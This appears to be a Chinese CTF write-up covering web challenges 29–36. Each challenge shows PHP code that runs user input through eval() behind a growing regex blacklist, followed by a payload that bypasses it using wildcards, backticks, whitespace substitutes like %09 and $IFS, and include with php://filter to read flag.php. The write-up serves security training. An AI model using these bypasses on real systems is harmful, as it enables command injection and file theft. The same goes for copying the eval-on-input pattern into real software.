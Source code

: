 ```yaml
---
layout: post
title:  "[命令执行]web29-36"
date:   2021-01-09 23:00:00 +0800
categories: CTF
---
```


### Web29

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

肥肠简单的一个命令执行，绕过flag黑名单就行，可以使用linux的通配符`*`

```
payload:?c=system('cat fla*');
```

需要注意的是这个flag并不会回显，需要查看源代码才能够看到(这里还卡了半天)。

### Web30

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

这次ban掉了system()函数，所以换一个函数就好

```
payload:?c=echo `cat fla*`;
```

### Web31

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

这次ban掉了cat，还有空格、.这些常用的命令和字符，所以要考虑空格的绕过。

空格的绕过方法也是老生常谈了(虽然到现在我都没记几个，~~呜呜我真是个废物~~)

```
在linux 空格可以用以下字符串代替：
 %09(tab)、$IFS$9、 $、{IFS}、$IFS%09(tab)、< 、<>、%20(space)等
 // 抄自羽师傅博客
```

```
payload:?c=echo%09`more%09fla*`; //也可以把%09换成其他 more换成less
```

### Web32

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

又ban掉了`，echo，还有括号，这时候就要想php中不适用括号的函数了

```php
echo
print
die
include
require
include_once
require_once
```

这题不会做，去网上看师傅们的wp，发现是使用include写进去马，然后用伪协议读取文件(~~呜呜~~)。

```
payload:?c=include"$_POST[noob]"?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

load地址的时候，要把`?c=include"$_POST[noob]"?>`加上

### Web33

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了双引号 用上一道题的payload去除双引号即可

```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

### Web34

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了`:`，然而并没有什么卵用
```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```
### Web35

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了`<`，然而并没有什么卵用

```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

### Web36

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了`数字`，然而并没有什么卵用

```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

